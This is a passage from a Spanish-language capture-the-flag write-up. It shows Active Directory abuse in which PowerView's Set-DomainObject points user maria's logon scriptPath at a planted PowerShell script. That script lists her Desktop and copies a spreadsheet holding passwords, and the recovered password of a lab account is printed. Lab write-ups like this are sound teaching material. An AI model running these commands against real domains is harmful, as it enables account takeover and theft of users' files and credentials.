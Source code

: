 De acuerdo a bloodhound hay que ejecutar un ataque kerberoasting y obtener un hash, pero en este caso no se podra crackear por que el usuario utiliza una contrasena robusta.
Algo que se puede hacer es un AD logon script user, que nos permitira escribir datos cada que maria en este caso inicie sesion

```powershell
echo 'dir C:\Users\Maria\Desktop\ > C:\ProgramData\bh\output.txt' > test.ps1

Set-DomainObject -Identity maria -SET @{scriptpath='C:\ProgramData\bh\test.ps1'}
```

![maria test 1](/assets/images/Object/maria_test1.png)

Como se ha ejecutado el comando que queremos con el usuario Maria, lo siguiente que podemos hacer es traernos el archivo que esta en el Escritorio de Maria de la manera siguiente:

```powershell
echo 'copy C:\Users\Maria\Desktop\Engines.xls C:\ProgramData\bh\Engines.xls' > test.ps1
```

Dentro de este archivo estan unas contrasenas que intentando cada una de ellas conectarnos como maria, daremos con la correcta que es W3llcr4ft3d_4cls

![maria owned](/assets/images/Object/maria_owned.png)
